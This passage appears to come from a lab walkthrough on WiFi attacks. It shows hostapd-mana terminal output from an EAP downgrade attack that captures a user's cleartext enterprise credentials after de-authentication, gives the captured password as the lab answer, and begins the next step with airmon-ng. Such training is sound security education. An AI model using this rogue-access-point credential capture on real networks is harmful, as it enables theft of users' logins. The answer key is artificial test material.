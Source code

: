 After performing the de-authentication, students will notice the cleartext credentials of `HTB\Sentinal` in the `hostapd-mana` process. Note, sometimes an additional de-authentication may be needed:

```
root@HTB-Corp:/home/wifi# hostapd-mana hostapd.conf

Configuration file: hostapd.conf
MANA: Captured credentials will be written to file 'credentials.creds'.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr b2:e1:92:3d:e3:04 and ssid "HTB-Corp"

<SNIP>

MANA EAP Identity Phase 0: HTB\Sentinal
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=21
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: HTB\Sentinal
MANA EAP GTC | HTB\\Sentinal:{hidden}
wlan1: CTRL-EVENT-EAP-SUCCESS 52:7c:9c:12:90:bd

<SNIP>
```

Answer: `V3ryV3ryStR0nGP2300W0rd`

# EAP Downgrade Attack (Attacking)

## Question 2

### "Connect to the HTB-Corp WiFi network using the obtained credentials. What is the value of the flag at 192.168.1.1?"

Students will reuse the previously established RDP session and will terminate the previously started processes using the key combination `Ctrl + C`. They will disable monitor mode on the `wlan0mon` (`wlan0`) interface using `airmon-ng`:

Code: shell

```shell
sudo airmon-ng stop wlan0mon
```

```
root@HTB-Corp:/home/wifi# sudo airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy2	wlan0mon	htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 station mode vif enabled on [phy2]wlan0)

		(mac80211 monitor mode vif disabled for [phy2]wlan0mon)
phy3	wlan1		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211
```
